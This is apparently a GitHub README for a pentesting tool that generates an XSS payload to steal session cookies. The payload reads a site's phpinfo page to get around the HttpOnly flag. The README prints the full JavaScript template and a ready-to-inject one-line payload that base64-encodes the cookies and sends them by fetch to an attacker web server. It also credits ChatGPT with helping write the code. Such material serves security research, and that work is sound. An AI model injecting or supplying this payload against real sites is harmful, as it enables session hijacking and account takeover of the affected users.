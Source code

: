 # Context
This is a payload generator designed in Bash to exfiltrate user cookies through the PHP info page bypassing the HttpOnly flag during XSS exploitation. The researcher who discovered this HttpOnly bypass method is [Aleksi Kistauri](https://github.com/ls4cfk) and you can see the original post here

https://aleksikistauri.medium.com/bypassing-httponly-with-phpinfo-file-4e5a8b17129b

As you can see, the payload works correctly but it can be improved to send only the cookies and not all the HTML code that comes after it. That's why I decided to design this script and write this post on my blog

https://hackcommander.github.io/pentesting-article-1/

to try to explain this bypass in depth, adding some additional considerations.

# What does the script do?

This script allows you to generate an XSS payload to exfiltrate user cookies through the PHP info page. The Javascript code template is

```js
<script>
  fetch(php_info_page_url)
    .then(response => response.text())
    .then(data => {
      // Define the starting and ending strings
      const startString = '<tr><td class="e">HTTP_COOKIE </td><td class="v">';
      const endString = '</td></tr>';

      // Find the index of the starting string
      const startIndex = data.indexOf(startString) + startString.length;

      // Find the index of the ending string
      const endIndex = data.indexOf(endString, startIndex);

      // Get the substring between the starting and ending strings
      const cookies = data.substring(startIndex, endIndex);

      // Encode the cookies in base64
      const encodedCookies = btoa(cookies);

      // Send the encoded cookies to the web server
      fetch(attacker_web_server_url + '?encodedCookies=' + encodedCookies, {
        method: 'GET'
      });
    });
</script>
```
where php_info_page_url is the url of the PHP info page of the website vulnerable to XSS and attacker_web_server_url is the url of the attacker web server, where the encoded cookies are sent. The payload is returned in one line and without comments, ready to be injected in HTML context.

# Installation

This repository doesn't require any installation, you only need to clone the repository

```bash
git clone https://github.com/HackCommander/PHP-info-cookie-stealer.git
```

# Usage

This is an example of use


```bash
./generate-javascript-payload.sh http://vulnerable-server-to-xss.com/phpinfo.php http://attacker-web-server.com/
```

where `http://vulnerable-server-to-xss.com/phpinfo.php` would be the url of the PHP info page of the website vulnerable to XSS and `http://attacker-web-server.com/` would be the url of your web server, where the encoded cookies are sent.


```js
<script>fetch('http://vulnerable-server-to-xss.com/phpinfo.php').then(response=>response.text()).then(data=>{const startString='<tr><td class="e">HTTP_COOKIE </td><td class="v">';const endString='</td></tr>';const startIndex=data.indexOf(startString)+startString.length;const endIndex=data.indexOf(endString,startIndex);const cookies=data.substring(startIndex,endIndex);const encodedCookies=btoa(cookies);fetch('http://attacker-web-server.com/'+'?encodedCookies='+encodedCookies,{method:'GET'});});</script>
```

This XSS payload is designed to be executed in HTML context but you can adapt it to execute in the context you need. The important thing is the Javascript code between the script tags.

# Additional comments

This tool has been developed with the help of [ChatGPT](https://chat.openai.com/chat). After a very constructive conversation, we came to the following conclusion

![ChatGPT](./images/chatGPT.png)

This is the Javascript code template that fills the script. The Bash code generation only required a few more questions.
